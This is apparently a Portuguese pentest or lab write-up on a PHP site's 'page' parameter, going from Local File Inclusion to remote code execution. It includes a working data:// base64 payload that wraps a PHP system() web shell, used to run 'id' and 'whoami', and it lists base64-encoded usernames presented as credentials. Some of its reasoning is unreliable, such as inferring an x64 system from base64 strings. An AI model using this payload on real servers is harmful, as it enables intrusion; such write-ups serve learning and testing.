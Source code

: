 No **OSINT** do site identificamos a possibilidade de existência de uma página com fraquezas de **injeção PHP**.  
Vamos detalhar a análise realizada:

---

## 📌 Página em questão

<img width="1174" height="850" alt="image" src="https://github.com/user-attachments/assets/8e4eab61-e50f-4932-a89c-153d68a347c5" />

A página pode conter outros tipos de injeções, mas a vulnerabilidade encontrada foi no **parâmetro da URL**:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/index.php?page=submit
```

---

## 💻 Possíveis Injeções LFI

O site pode ser suscetível a **Local File Inclusion (LFI)**.  
Para testar, basta inserir um comando simples como `ls` no final do parâmetro `page`:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/?page=ls
```

<img width="1670" height="267" alt="image" src="https://github.com/user-attachments/assets/8d1545e8-3c03-4939-938a-efea531ff1c2" />

🔎 O **erro retornado** já revela informações importantes sobre o servidor:

```
Warning: include(): Failed opening 'ls.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') 
in /var/www/html/index.php on line 54
```

---

## 🧪 Testes Realizados

### Teste 2:
<img width="995" height="207" alt="image" src="https://github.com/user-attachments/assets/ddd1206a-14f5-4ec6-abfd-5a8ce98cd182" />

### Teste 3:
<img width="987" height="173" alt="image" src="https://github.com/user-attachments/assets/44b6b4d2-7e4d-41cb-b10c-b6898e0d6810" />

Com base nos comandos e erros retornados, foi possível **ajustar a exploração da vulnerabilidade**.

---

## 🔑 Credenciais Encontradas

Durante as análises, com base em uma lista que criei a partir da vulnerabilidade da porta 22, observei indícios de credenciais em **Base64**:

- root → `cm9vdA==`  
- ftp → `ZnRw`  

Isso sugere que o LFI pode estar relacionado a um **sistema x64**, abrindo espaço para **testes de injection em Base64**.

---

## ⚙️ Exploração com Data Wrapper (RCE)

Pesquisando sobre possíveis **RCEs (Remote Code Execution)**, encontrei que é possível usar `data://text/plain;base64` para injetar comandos.

### ▶️ Executando `id`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id
```

<img width="1461" height="193" alt="image" src="https://github.com/user-attachments/assets/ba17d026-9e13-45e5-ac4c-1ac20da10a77" />

⚠️ A resposta não aparece diretamente no site, mas analisando via **F12 (DevTools)**, conseguimos verificar que o comando foi processado corretamente.

---

### ▶️ Executando `whoami`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami
```

<img width="1096" height="194" alt="image" src="https://github.com/user-attachments/assets/c9d29a71-2c0a-489a-a182-f5e6d63bf92a" />

---

# 📖 Conclusão

✔️ O site apresenta vulnerabilidades de **LFI** que podem evoluir para **RCE** utilizando técnicas de **Base64 Data Wrapper**.  
✔️ Foram identificadas credenciais em **Base64**, sugerindo possível exploração de acesso.  
✔️ Apesar de não exibir diretamente no navegador, os comandos executados podem ser verificados no **código-fonte via DevTools**.

⚡ Essa análise confirma o risco de exposição crítica do sistema.

---
✍️ Relatório finalizado com base em testes realizados manualmente.
